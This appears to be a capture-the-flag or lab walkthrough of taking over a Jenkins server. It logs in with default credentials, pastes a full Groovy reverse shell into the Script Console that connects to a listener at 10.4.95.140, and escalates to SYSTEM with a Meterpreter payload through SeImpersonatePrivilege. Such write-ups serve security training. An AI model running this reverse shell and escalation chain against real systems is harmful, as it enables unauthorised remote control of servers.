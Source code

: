![image](https://github.com/user-attachments/assets/7d258d44-c5aa-4bbe-8a91-1799bb24cdd5)
![image](https://github.com/user-attachments/assets/f6c07fdf-38b9-4209-b7b7-1201bb5a8aca)

Try common default cred admin:admin, get in.

Manage Jenkins -> Script Console -> Groovy Reverse Shell -> Run

```bash
String host="10.4.95.140";
int port=443;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host, port);
InputStream pi=p.getInputStream(), pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(), so=s.getOutputStream();
while(!s.isClosed()){
    while(pi.available()>0)
        so.write(pi.read());
    while(pe.available()>0)
        so.write(pe.read());
    while(si.available()>0)
        po.write(si.read());
    so.flush();
    po.flush();
    Thread.sleep(50);
    try {
        p.exitValue();
        break;
    } catch (Exception e){}
};
p.destroy();
s.close();
```bash




![image](https://github.com/user-attachments/assets/8a0bc764-55e1-417d-844a-9b6fdd19ad5c)
![image](https://github.com/user-attachments/assets/5b504bbc-a43c-4f34-bdc9-b31de77900a9)
![image](https://github.com/user-attachments/assets/8ea3e0ce-f63e-43a3-8b33-fe1552b25f65)
![image](https://github.com/user-attachments/assets/6d8b8f9f-b8bd-4ae4-b79e-31c5a86890f8)

SharpEfsPotato, PrintSpoofer64.exe, RoguePotato, etc. not work --> cannot PrivEsc to SYSTEM

![image](https://github.com/user-attachments/assets/a59a788d-1db6-4cce-b015-c42a3e56c6ae)


Use Meterpreter payload

![image](https://github.com/user-attachments/assets/e3e91d1b-74da-4bde-b3a0-b1f04dc43266)
![image](https://github.com/user-attachments/assets/568e1fee-a40a-4315-bf7e-c1af7a4f29c9)
![image](https://github.com/user-attachments/assets/baf95daa-8af2-4944-84f2-59c612f817cd)

1. msfvenom meterpreter payload --> upload to machine

2. msfconsole setting to match paylaod and run --> Start reverse ...
 
3. Powershell Start-Process "revshell.exe" --> trigger the payload

4. user has SeImpersonatePrivilege enabled --> getsystem --> PrivEsc to SYSTEM
